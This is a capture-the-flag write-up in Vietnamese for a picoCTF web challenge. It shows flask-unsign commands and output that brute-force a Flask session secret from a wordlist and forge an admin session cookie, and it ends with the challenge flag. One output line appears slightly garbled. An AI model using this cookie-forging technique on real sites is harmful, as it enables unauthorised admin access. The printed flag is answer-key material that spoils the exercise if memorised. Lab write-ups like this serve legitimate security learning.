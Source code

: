 # Solution

- Trong bài này ta có source code của trang web
- Theo như source code, ta có những cookie, sau đó copy những cookie đó ra file `cookies.txt`
- Mở terminal và ở đây ta sử dụng tool `flask-unsign` để decode cookie

```bash
flask-unsign --unsign --server "http://mercury.picoctf.net:18835/" --wordlist cookies.txt
```

Sau khi chạy xong ta được:

```bash
    flask-unsign --unsign --server "http://mercury.picoctf.net:18835/" --wordlist cookies.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZzdoTg.mVJWgcx_lQ4fZBnjKZhxqfGhfX0
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

- Sau khi decode cookie, ta được session decodes to: `{'very_auth': 'blank'}` và secret key là `fortune`
- Tiếp theo, ta sử dụng secret key và session cookie để tạo cookie mới

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune
```

- Sau khi chạy xong ta có được cookies mới và mở extension Cookie Editor của trình duyệt, sửa giá trị của cookie `session` thành giá trị mới vừa tạo
- Refresh trang web
- Done

# Flag

`picoCTF{pwn_4ll_th3_cook1E5_743c20eb}`
